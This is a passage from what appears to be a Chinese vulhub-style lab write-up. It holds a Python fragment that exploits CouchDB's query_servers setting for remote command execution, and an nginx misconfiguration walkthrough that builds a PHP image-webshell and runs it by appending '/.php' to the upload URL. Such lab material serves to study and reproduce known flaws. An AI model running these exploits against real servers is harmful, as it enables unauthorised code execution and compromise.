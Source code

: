 ```python
# print (command)
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/co0ontty')
session.put(target + '/co0ontty/test', data='{"_id": "id"}')

if version == 1:
    session.post(target + '/co0ontty/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/co0ontty/_design/test', data='{"_id":"_design/test","views":{"co0ontty":{"map":""} },"language":"cmd"}')
```

## NGINX 解析漏洞

`Path:nginx/nginx_parsing_vulnerability`

漏洞成因：用户配置不当造成的解析漏洞。

### 漏洞复现：

![](/assets/img/posts/5cffa56981f5625236.png)

制作 php 的图片马进行上传，利用解析漏洞将图片马当做 php 解析并运行。

```php
<?phpinfo()?>
```

```powershell
copy 1.jpg /a + shell.php /b shell.jpg
```

上传图片马，获得上传后的文件物理路径，访问相应的 web 路径（[http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg](http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg)）获得图片

![](/assets/img/posts/5cffa665698a720426.png)

利用解析漏洞访问（[http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg/.php](http://47.102.143.147/uploadfiles/f47454d1d3644127f42070181a8b9afc.jpg/.php)）成功解析图片为 php
